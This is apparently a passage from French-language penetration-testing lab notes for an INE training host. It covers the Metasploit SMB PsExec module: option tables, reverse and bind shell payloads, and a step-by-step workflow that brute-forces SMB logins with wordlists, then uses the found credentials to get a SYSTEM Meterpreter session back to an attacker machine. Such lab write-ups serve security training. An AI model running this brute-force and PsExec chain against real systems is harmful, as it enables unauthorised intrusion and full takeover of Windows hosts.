 ```bash
show payloads

# Lancement exploitation
exploit
```

### Options du module PsExec
| Option | Description | Valeur exemple |
|--------|-------------|----------------|
| `RHOSTS` | IP cible | demo.ine.local |
| `SMBUser` | Utilisateur admin | Administrator |
| `SMBPass` | Mot de passe | qwertyuiop |
| `SMBDomain` | Domaine (optionnel) | WORKGROUP |
| `LHOST` | IP attaquant | your_kali_ip |
| `LPORT` | Port d'écoute | 4444 |
| `SERVICE_NAME` | Nom du service | Aléatoire |
| `SERVICE_DESCRIPTION` | Description service | Windows Service |

### Payloads recommandés PsExec
```bash
# Payload par défaut (recommandé)
windows/meterpreter/reverse_tcp

# Alternatives
windows/shell/reverse_tcp              # Shell simple
windows/meterpreter/bind_tcp            # Bind shell
windows/x64/meterpreter/reverse_tcp     # 64-bit
windows/vncinject/reverse_tcp           # VNC injection
```

### Workflow complet PsExec
```bash
# Étape 1 : Brute force
use auxiliary/scanner/smb/smb_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit

# Étape 2 : Noter les credentials trouvés
# Exemple : Administrator:qwertyuiop

# Étape 3 : Exploitation PsExec
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
set LHOST your_kali_ip
exploit

# Étape 4 : Session Meterpreter obtenue
getuid                                 # NT AUTHORITY\SYSTEM
```

---